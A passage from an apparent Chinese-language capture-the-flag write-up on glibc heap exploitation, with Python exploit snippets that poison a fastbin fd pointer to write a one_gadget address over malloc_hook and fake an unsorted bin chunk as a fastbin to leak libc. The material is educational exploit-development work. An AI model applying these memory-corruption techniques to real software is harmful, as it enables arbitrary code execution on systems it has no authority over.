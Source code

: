 申请 0x60 fastbin chunk 之后就是常规的修改 fastbin fd 指针达到任意写的操作。这里偏移构造 size 位我选择 0x23 。

```python
create(0x10)#3
create(0x70)#4
create(0x60)#5
free(5)
payload = 'c'*0xa0 + p64(0) + p64(0x71)
payload += p64(malloc_hook-0x23)
# write(3,len(payload),payload)
write(4,len(payload),payload)
create(0x60)#5
create(0x60)#6

payload = 'a'*(0x23-0x10)
payload += p64(onegadget)
write(6,len(payload),payload)

creat(0x20)
```

#### 伪造 unsortedbin 为 fastbin 

这是另外一个思路泄露出 libc 地址，前面是用 unlink 机制实现的一个堆重叠。这里用 wiki 的方法，通过修改 fastbin fd 指针，配合修改 chunk header 信息，将一个 inuse 的 unsorted bin 放入到 fastbin ，重新申请出来，实现两个指针指向一个地址。

布置好堆情况：

```python
create(0x10)#溢出修改下一个chunk header
create(0x10)#fastbin
create(0x10)#fastbin
create(0x10)#溢出修改下一个chunk header
create(0x80)#被放入fastbin的chunk
create(0x100)#防止unsortedbin与topchunk合并

#布置fastbin
#chunk1->chunk2->0
free(2)
free(1)
```

然后修改 fastbin fd 指针指向 unsorted bin

```python
#fastbin:chunk1->chunk4->0
payload = 'a'*0x10
payload += p64(0) + p64(0x21)
payload += '\x80'
write(0,len(payload),payload)
```

然后将 unsorted bin 的 chunk size 修改为所在的 fastbin 大小，从而绕过 fastbin 申请时的检查：

```python
payload = 'a'*0x10
payload += p64(0) + p64(0x21)
write(3,len(payload),payload)
```
